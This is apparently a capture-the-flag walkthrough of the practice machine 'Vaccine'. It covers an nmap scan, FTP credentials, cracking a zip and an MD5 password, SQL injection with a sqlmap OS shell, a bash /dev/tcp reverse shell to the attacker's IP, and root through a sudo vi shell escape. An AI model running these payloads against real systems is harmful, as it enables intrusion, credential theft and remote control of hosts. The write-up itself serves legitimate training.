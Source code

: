 # Vaccine

## Ifconfig

<pre>
inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c
</pre>

## Nmap

> sudo nmap -sC -sV -A 10.10.10.46

<pre>
Nmap scan report for 10.10.10.46
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   244.85 ms 10.10.14.1
2   244.90 ms 10.10.10.46
</pre>

## Nikto

> nikto -h 10.10.10.46 | tee [nikto.log](./nikto.log)

## Install ftp

> sudo apt install ftp

> ftp 10.10.10.46

<pre>
username: ftpuser
password: mc@F1l3ZilL4
</pre>

and then get the [backup.zip](./ftp/backup.zip)

## Use zip hash to crack

> zip2john [backup.zip](./ftp/backup.zip) > [backup.hash](./ftp/backup.hash)

> john [backup.hash](./ftp/backup.hash) --show 

<pre>
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
1 password hash cracked, 0 left
</pre>

- unzip with password 741852963

> unzip [backup.zip](./ftp/backup.zip) 


## Try login on [index.php](./ftp/backup/index.php)

<pre>
username: admin
password (md5 reverse): 2cb42f8734ea607eefed3b70af13bbd3 ( qwerty789)
</pre>

## Test sql injection

- At [dashboard.php](./dashboard.php)

> http://10.10.10.46/dashboard.php?search='UNION SELECT NULL, NULL, NULL, NULL, VERSION() --

VERSION() can replace from second to fourth parameters

*first only accept integer (index) cannot be replaced*

```
PostgreSQL 11.5 (Ubuntu 11.5-1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.1.0-9ubuntu2) 9.1.0, 64-bit
```

## Sqlmap hack the os shell

> sqlmap 10.10.10.46/dashboard.php?search=whatever --cookie="PHPSESSID=**"what you get on session"**" --os-shell

- Check self name

> whoami

<pre>
postgres
</pre>

- Check current path

> pwd

<pre>
/var/lib/postgresql/11/main
</pre>

- Remote command to local

*Source*

> bash -c 'bash -i >& /dev/tcp/10.10.14.69/*port* 0>&1'

*Destination*

> nc -lvnp *port*

- Get ID

> id

<pre>
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
</pre>

- Find postgresql account in [/var/www/html/dashboard.php](./dashboard.php)

<pre>
username: postgres
password: P@s5w0rd!
</pre>

## Sudo lists all privilege current user can do

> sudo -l

<pre>
Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
</pre>

- Postgres can use *vi* of */bin/vi* (need sudo)

> which vi

<pre>
/usr/bin/vi
</pre>

- Use *sudo vi* to get root

> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

- Input commend in *sudo vi* to get root privilege

> :!/bin/bash -P

## Finally

<pre>
root.txt
dd6e058e814260bc70e9bbdef2715849
</pre>